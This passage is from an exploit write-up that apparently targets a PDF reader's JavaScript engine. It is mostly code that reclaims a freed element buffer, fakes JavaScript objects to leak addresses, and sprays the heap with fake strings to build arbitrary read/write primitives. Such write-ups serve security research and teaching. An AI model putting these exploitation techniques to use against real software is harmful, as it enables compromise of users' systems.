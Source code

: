 ```
        
		if (SOUNDS[j][0] == 0x33441122) {
			T = SOUNDS[j]
			break
		}
	} catch (err) {}
}
if (T==null) {
	console.println('RECLAIM element buffer FAILED')
	throw ''
} else console.println('RECLAIM element buffer SUCCEED')


```

From this point, we can put fake Javascript objects into our `elements` buffer and leak the address of objects assigned to it. The following code is used to find out which `TypedArray` is our fake `elements` buffer and leak its address.

```
WRITE_ARRAY = new Uint32Array(8)
T[0] = WRITE_ARRAY
T[1] = 0x11556611
for(var i=0; i<FREE_110_SZ; i++) {
	if (FREES_110[i][0] != 0x33441122) {
		FAKE_ELES = FREES_110[i]
		WRITE_ARRAY_ADDR = FREES_110[i][0]
		console.println('WRITE_ARRAY_ADDR: ' + WRITE_ARRAY_ADDR.toString(16))
		assert(WRITE_ARRAY_ADDR>0)
		break
	} else {
		FREES_110[i] = null
	}
}


```

Arbitrary Read/Write Primitives
-------------------------------

To achieve an abritrary read primitive I spray a bunch of fake string objects into the heap, then assign it into our `elements` buffer.

```
GUESS = 0x20000058 

for(var i=0x1100; i<0x1400; i++) {
	var dv = new DataView(SPRAY[i])
	dv.setUint32(0, 0x102, 		true) 
	dv.setUint32(4, GUESS+12, 	true) 
	dv.setUint32(8, 0x1f, 		true) 
	dv.setUint32(12, i,			true) 
	delete dv
}
gc()



FAKE_ELES[4] = GUESS
FAKE_ELES[5] = 0xffffff85


SPRAY_IDX = s2h(T[2])
console.println('SPRAY_IDX: ' + SPRAY_IDX.toString(16))
assert(SPRAY_IDX>=0)
```